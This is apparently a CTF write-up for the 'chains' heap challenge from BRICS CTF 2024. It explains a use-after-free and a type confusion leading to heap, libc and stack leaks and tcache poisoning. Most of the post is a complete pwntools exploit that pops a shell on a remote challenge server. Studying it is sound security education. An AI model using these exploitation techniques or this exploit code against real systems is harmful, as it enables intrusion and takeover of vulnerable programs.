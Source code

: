 +++
title = 'chains - BRICS CTF 2024'
date = 2024-10-18T18:50:53+02:00
draft = false
+++

two weeks ago, I played BRICS CTF with r3kapig, and we ranked 1st!
chains was one of the challanges I solved.

we were given a program to add/remove proxies and chains. upon executing we're presented with:
```
1. Add Proxy
2. Delete Proxy
3. Add Chain
4. View Chain
5. Delete Chain
6. Exit
```
that resembles a typical heap challenge. it turns out to be one,
since the following structures are getting allocated dynamically:
```c
typedef struct _proxy {
    char* hostname;
    int16_t port;
} proxy_t;

typedef struct _chain {
    proxy_t* proxy;
    struct _chain* next;
} chain_t;
```
allocating user input is restricted to the `hostname` buffer, which is limited in size (128 bytes).
an interesting functionality is, that we can attach proxies to a `chain_t` of length `n`.
this stores a reference to a `proxy_t` object into the `proxy` member.

here comes the problem. we can free proxies individually, however their references from chains
are not cleared. freeing a chain would also try to free the associated proxies, so we can
achieve a use-after-free. this works vice-versa

to leak heap, we can free a proxy object via the `delete_chain` function, and due to it's reference not being cleared in `proxies` array, we can add the free'd proxy to a chain again. this allows us
to receive a heap leak:
```py
add_proxy(b"AAAA", 1234)
add_proxy(b"BBBB", 1234)
add_proxy(b"CCCC", 1234)

add_chain(1, [1])
delete_chain(0) # 1 is deleted

add_chain(2, [1, 2])
add_chain(2, [1, 2])

view_chain(1) # leak
```
now how do we continue from here? we have a modern libc version (`2.39-0ubuntu8.3`) plus we cannot
fully control chunks in terms of size and data. that's why I constructed an arbitrary free / read.

for that I used some sort of type confusion. if we overlap a free'd `chain_t` with `proxy_t`, our
data in `hostname` gets interpreted as a `proxy_t` object, and our `port` as `next` pointer.
we can fully craft a fake and controlled `proxy_t` object now.
when doing a view or delete our the already free `chain_t` pointer, it tries to ouput or free
the `hostname` property of our fake object, so we can control the location entirely!

to get a libc leak then, I crafted a fake unsorted chunk, free'd it using the arb free to then read
the libc address of `main_arena`:
```py
add_proxy(b"DDDD", 1234) # 3
add_proxy(b"EEEE", 1234) # 4

add_chain(1, [3])
delete_chain(2)

add_chain(1, [4])
add_chain(1, [4]) # 3

delete_proxy(3)
add_proxy(p64(unsorted_ptr)+p64(0x0)*0x3+p64(0x0)+p64(0x421)+b"ZZZZZZZZ", 0) # overwrite pointers

for i in range(4):
    add_proxy(b"XXXX", 1234)

add_proxy(b"A"*0x20+p64(0x0)+p64(0x61), 1234)
add_proxy(b"XXXX", 1234)

delete_chain(3)

delete_proxy(1) # free chain 0
add_proxy(p64(unsorted_ptr), 0) # overwrite pointers

view_chain(0)
```

because the libc version is new, I decided to overwrite return address on the stack. luckily we
can re-use our arb read technique we used for libc leak to get a stack leak from `environ`.

to write to the stack, I just overlapped some tcache chunks and did some tcache poisioning.
all that was left to do is to rop to `system("/bin/sh")`:
```py
from pwn import *

def add_proxy(hostname, port):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"hostname:", hostname)
    p.sendlineafter(b"port:", str(port).encode("ascii"))

def delete_proxy(id):
    p.sendlineafter(b">", b"2")
    p.sendlineafter(b"id:", str(id).encode("ascii"))

def add_chain(sz, ids):
    assert sz == len(ids)
    p.sendlineafter(b">", b"3")
    p.sendlineafter(b"size:", str(sz).encode("ascii"))
    for id in ids:
        p.sendlineafter(b"id:", str(id).encode("ascii"))

def view_chain(id):
    p.sendlineafter(b">", b"4")
    p.sendlineafter(b"id:", str(id).encode("ascii"))

def delete_chain(id):
    p.sendlineafter(b">", b"5")
    p.sendlineafter(b"id:", str(id).encode("ascii"))

def mask(heap_base,target):
      return (heap_base >> 0xc ) ^ target

#p = process("./chains")
p = remote("89.169.156.185", 13905)

add_proxy(b"AAAA", 1234)
add_proxy(b"BBBB", 1234)
add_proxy(b"CCCC", 1234)

add_chain(1, [1])
delete_chain(0) # 1 is deleted

add_chain(2, [1, 2])
add_chain(2, [1, 2])

view_chain(1)
p.recvuntil(b" is ")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
secret_addr = heap_leak - 0x18
unsorted_ptr = heap_leak + 0x120
overlap_ptr = heap_leak + 0xaf0
mask_ptr = heap_leak + 0xb40
log.info("heap_leak: " + hex(heap_leak))

"""
proxy chunk 1 is read
proxy chunk 3 is free
"""

delete_proxy(1) # free chain 0
add_proxy(p64(secret_addr), 0) # overwrite pointers

view_chain(0)
p.recvuntil(b"proxy #1 is ")
secret = u64(p.recv(8))
log.info("heap secret: " + hex(secret))

add_proxy(b"DDDD", 1234) # 3
add_proxy(b"EEEE", 1234) # 4

add_chain(1, [3])
delete_chain(2)

add_chain(1, [4])
add_chain(1, [4]) # 3

delete_proxy(3)
add_proxy(p64(unsorted_ptr)+p64(0x0)*0x3+p64(0x0)+p64(0x421)+b"ZZZZZZZZ", 0) # overwrite pointers

for i in range(4):
    add_proxy(b"XXXX", 1234)

add_proxy(b"A"*0x20+p64(0x0)+p64(0x61), 1234)
add_proxy(b"XXXX", 1234)

delete_chain(3)

delete_proxy(1) # free chain 0
add_proxy(p64(unsorted_ptr), 0) # overwrite pointers

view_chain(0)
p.recvuntil(b"proxy #1 is ")
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
libc_base = libc_leak - 0x203b20
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f
environ = libc_base + 0x20ad58
pop_rdi = libc_base + 0x10f75b
ret = libc_base + 0x2882f
log.info("libc_base: " + hex(libc_base))

delete_proxy(1) # free chain 0
add_proxy(p64(environ), 0) # overwrite pointers
view_chain(0)
p.recvuntil(b"proxy #1 is ")
stack_leak = u64(p.recv(6).ljust(8, b"\x00"))
rip = stack_leak - 0x138
log.info("stack_leak: " + hex(stack_leak))

for i in range(10):
    add_proxy(b"XXXX", 1234)

add_proxy(b"DDDD", 1234) # 21
add_proxy(b"EEEE", 1234) # 22

add_chain(1, [21]) # 3
delete_chain(3)

add_chain(1, [22])
add_chain(1, [22]) # 4

delete_proxy(21)
add_proxy(p64(overlap_ptr), 0x0) # overwrite pointers

add_proxy(b"XXXX", 1234)
add_proxy(b"X"*0x50 + p64(0x0) + p64(0x91), 1234)
add_proxy(b"X"*0x30 + p64(0x0) + p64(0x51), 1234)
add_proxy(b"XXXX", 1234)

delete_proxy(26)
delete_proxy(25)

delete_chain(4)

add_proxy(b"A"*0x70, 1234)
add_proxy(b"A"*0x50 + p64(mask(mask_ptr, rip)), 1234)
add_proxy(b"A"*0x70, 1234)
add_proxy(b"A"*0x8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system), 1234)

p.sendlineafter(b">", b"6")

p.interactive()
```